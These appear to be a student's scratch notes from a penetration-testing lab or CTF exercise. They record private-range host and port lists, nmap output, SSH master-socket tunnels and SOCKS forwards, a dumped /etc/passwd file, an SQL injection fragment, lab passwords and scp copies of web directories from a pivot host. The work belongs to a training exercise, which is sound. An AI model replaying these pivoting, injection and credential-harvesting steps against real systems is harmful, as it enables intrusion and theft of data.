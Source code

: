
192.168.150.X  
.225, .226, .227  
.226 and .227 have dns 53 open  

192.168.28.X  
.97, .98, .99, .100, .105, .111, .120  
.98 has 53  
.100 has 80, 2222 as ssh  
.105 has 21,23,2222 as ssh  
.111 has 80, 2222 ass ssh and 8080 as http  
.120 has 4242 as ssh  

student@lin-ops:~/Desktop/Security/192.168.28.105$ cat ServerInitialization   
PassTemporary  
loginfirst  
logout null bit  
houseBeatFliesLOW  
YourTempPassword  


## web Exploitation

97dGQEcQWgSxAzo
student@lin-ops:~/Desktop/Security$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~/Desktop/Security$ ssh -S /tmp/gray gray -O forward -D9050
T1:10.100.28.40

Nmap scan report for 10.100.28.40
Host is up (0.0018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
4444/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

80/tcp   open  http
| http-enum: 
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
4444/tcp open  krb524


10.100.28.55 ATOPIA



root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/bin/bash backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin sshd:x:109:65534::/run/sshd:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false billybob:x:1001:1001:you found me l3UNSgV6WlHnGfKPEU3J:/home/billybob:/bin/bash billybob:x:1001:1001:you found me l3UNSgV6WlHnGfKPEU3J:/home/billybob:/bin/bash



ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDATVcXTWhY1e69F6+ecZ4O8PxagGb49iOqq+ukjIg6YQh6AIIqJROoLZ+lzbKfS5bt3zFwcP2yGkC0TGMVclVC/ScYUBtFj7xuKv+CdDIIqej82yTVjLyvDiKSaEaz+bKqCEcWdggW1PP2Xcm7ZrpIsTryPCYo27ldhJEjY8MoOQ3iZZh3cVl5sOdUFSfenMHV6YfMhhrEGgPe2pFJOe24nmrcCxEn4UO+pK93UObhISBwhtsrXS6C0h9q3jgfQFHohAOlL8ycLFtVNgkLU70tOmeWCqG0K3V2lDWVyNOLgx+JPbswBhp1QWSos543+PFVmiRFgELcVBQn3o6OCN8j student@lin-ops






# SQL CTFDs

target: 10.100.28.48 known port 80

Keys to the Kingdom

extract flag.txt compressed/zip
basee64 - MTR1N3k2alg3N2M1RHN0YWhOSEoK


4nGfU     87s2V

```
student@lin-ops:~$ ssh -MS /tmp/gray student@10.50.36.239
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -D9050
student@lin-ops:~$ ssh -S /tmp/gray gray -O forward -L 1460:10.100.28.48:80
```

Hacker	GirthWorm

GirthWorm	password

GirthWorm@gmail.com

shadfskjfdh \',1);#\





# reverse engineering 
creds to 192.168.28.111
comrade::StudentWebExploitPassword
ssh port 2222

student@lin-ops:~$ scp -r -P 1440 comrade@127.0.0.1:/var/www/html/consulting/public_html/longTermStorage /home/student/Desktop/Security
C:\Users\student\Desktop\REExercise> scp -r student@10.50.31.3:/home/student/Desktop/Security/ C:\Users\student\Desktop\REExercise















